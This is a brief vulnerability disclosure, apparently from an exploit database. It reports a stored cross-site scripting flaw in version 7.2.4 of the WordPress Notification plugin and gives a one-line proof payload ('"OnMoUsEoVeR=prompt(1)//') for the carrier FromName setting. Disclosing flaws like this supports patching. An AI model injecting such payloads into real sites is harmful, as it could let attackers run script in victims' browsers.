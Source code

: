 # Exploit Title: WrodPress Plugin Notification——Stored Cross-Site Scripting
# Exploit Author: Thinkland Security Team
# Vendor Homepage: https://wordpress.org/plugins/notification/
# Version :  V 7.2.4
# Vulnerability Type: Stored Cross-Site Scripting
# Tested on Windows 10 、XAMPP
# Vulnerability proof：  
1. Settings》CARRIERS 》FromName ,insert the xss payload "OnMoUsEoVeR=prompt(1)//
![image]()  
